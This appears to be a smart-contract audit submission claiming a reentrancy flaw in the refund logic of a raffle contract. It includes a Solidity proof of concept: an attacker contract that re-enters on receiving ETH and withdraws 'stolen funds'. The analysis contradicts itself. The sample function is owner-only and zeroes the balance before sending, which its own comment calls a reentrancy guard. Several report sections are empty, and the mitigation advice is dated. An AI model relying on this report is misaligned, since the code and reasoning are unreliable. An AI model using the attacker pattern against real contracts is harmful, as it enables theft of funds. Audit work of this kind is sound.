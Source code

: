Sour Denim Alpaca

High

# Reentrancy Risk in refundPlayers and _sendETH function at WinnablesTicketManager contract

### Summary

The refundPlayers function and _sendETH function use low-level calls to send ETH:
Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L482
Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L215

solidity
```solidity
function _sendETH(uint256 amount, address to) internal {
    if (amount == 0) revert NothingToSend();
    (bool success, ) = to.call{ value: amount }("");
    if (!success) revert ETHTransferFail();
}
```
In refundPlayers, ETH is sent to the player using _sendETH, which in turn uses a low-level call. This opens up the potential for reentrancy attacks if the player address is a contract that can perform a reentrant call to the refundPlayers function or other vulnerable functions.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

_No response_

### PoC

**Vulnerable Contract**
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "@openzeppelin/contracts/access/Ownable.sol";

contract VulnerableContract is Ownable {
    mapping(address => uint256) public refunds;

    // Refund function that has a reentrancy vulnerability
    function refundPlayers(address player) external onlyOwner {
        uint256 amount = refunds[player];
        require(amount > 0, "No refund available");

        refunds[player] = 0; // Update the refund amount before sending to prevent reentrancy issues
        _sendETH(player, amount);
    }

    // Function to send ETH, vulnerable to reentrancy
    function _sendETH(address to, uint256 amount) internal {
        require(address(this).balance >= amount, "Insufficient balance");
        (bool success, ) = to.call{value: amount}("");
        require(success, "Transfer failed");
    }

    // Function to deposit ETH to the contract (for testing)
    receive() external payable {}
}
```
**Reentrancy Attacker Contract**

```soldity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

interface IVulnerableContract {
    function refundPlayers(address player) external;
}

contract ReentrancyAttacker {
    IVulnerableContract public vulnerableContract;

    constructor(address _vulnerableContract) {
        vulnerableContract = IVulnerableContract(_vulnerableContract);
    }

    // Fallback function to be called during reentrancy
    receive() external payable {
        // Re-enter the vulnerable contract to exploit the reentrancy
        if (address(vulnerableContract).balance > 0) {
            vulnerableContract.refundPlayers(address(this));
        }
    }

    // Start the attack
    function attack() external payable {
        require(msg.value > 0, "Send ETH to attack");
        vulnerableContract.refundPlayers(address(this));
    }

    // Withdraw function to retrieve stolen funds
    function withdraw() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```
**Explanation**
**Vulnerable Contract:**

refundPlayers: This function updates the refund amount and then calls _sendETH to transfer ETH. This ordering allows for reentrancy attacks because it first sets refunds[player] to 0 but calls _sendETH before completing the refund process.
_sendETH: Transfers ETH to the player using a low-level call (call{value: amount}("")), which allows the attacker to execute arbitrary code in their fallback function.
**Attacker Contract:**

receive: This fallback function is called when the attacker contract receives ETH. It re-enters the refundPlayers function of the vulnerable contract to exploit the reentrancy vulnerability.
attack: Starts the attack by initiating a refund request. If the contract receives ETH, it will repeatedly exploit the vulnerability via the fallback function.
withdraw: Allows the attacker to withdraw the stolen funds from the attacker contract.
**Testing**
Deploy the Vulnerable Contract: Deploy the VulnerableContract on a test network.
Deposit ETH: Send some ETH to the VulnerableContract to make sure it has a balance.
Deploy the Attacker Contract: Deploy the ReentrancyAttacker contract with the address of the VulnerableContract.
Execute Attack: Call the attack function of the ReentrancyAttacker with some ETH to start the attack.
Withdraw Funds: After the attack, call withdraw on the ReentrancyAttacker to retrieve stolen funds.
This PoC demonstrates how reentrancy can be exploited through a vulnerable refund mechanism by exploiting the ordering of state changes and external calls.

### Mitigation

Consider using the transfer function instead of low-level calls for sending ETH to avoid reentrancy issues.
Apply the Checks-Effects-Interactions pattern to mitigate reentrancy by updating internal states before making external calls.